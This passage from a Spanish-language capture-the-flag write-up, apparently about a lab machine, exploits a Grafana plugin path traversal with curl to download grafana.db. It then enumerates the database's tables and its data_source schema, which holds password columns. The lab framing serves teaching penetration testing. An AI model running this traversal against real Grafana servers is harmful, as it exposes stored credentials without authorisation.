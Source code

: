 ```shell
❯ curl --path-as-is http://10.10.11.183:3000/public/plugins/mysql/../../../../../../../../var/lib/grafana/grafana.db -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  644k  100  644k    0     0   807k      0 --:--:-- --:--:-- --:--:--  807k

❯ file grafana.db
grafana.db: SQLite 3.x database, last written using SQLite version 3035004, file counter 558, database pages 161, cookie 0x119, schema 4, UTF-8, version-valid-for 558
```
{: .nolineno}

Ahora usamos el comando `sqlite3` para enumerar la base de datos `grafana.db`:

> List tables

```console
❯ sqlite3 grafana.db
SQLite version 3.39.4 2022-09-29 15:55:41
Enter ".help" for usage hints.
sqlite> .tables
alert                       login_attempt             
alert_configuration         migration_log             
alert_instance              ngalert_configuration     
alert_notification          org                       
alert_notification_state    org_user                  
alert_rule                  playlist                  
alert_rule_tag              playlist_item             
alert_rule_version          plugin_setting            
annotation                  preferences               
annotation_tag              quota                     
api_key                     server_lock               
cache_data                  session                   
dashboard                   short_url                 
dashboard_acl               star                      
dashboard_provisioning      tag                       
dashboard_snapshot          team                      
dashboard_tag               team_member               
dashboard_version           temp_user                 
data_source                 test_data                 
kv_store                    user                      
library_element             user_auth                 
library_element_connection  user_auth_token
```

> Enumerate table schema

```console
sqlite> .schema data_source 
CREATE TABLE `data_source` (
`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL
, `org_id` INTEGER NOT NULL
, `version` INTEGER NOT NULL
, `type` TEXT NOT NULL
, `name` TEXT NOT NULL
, `access` TEXT NOT NULL
, `url` TEXT NOT NULL
, `password` TEXT NULL
, `user` TEXT NULL
, `database` TEXT NULL
, `basic_auth` INTEGER NOT NULL
, `basic_auth_user` TEXT NULL
, `basic_auth_password` TEXT NULL
, `is_default` INTEGER NOT NULL
, `json_data` TEXT NULL
, `created` DATETIME NOT NULL
```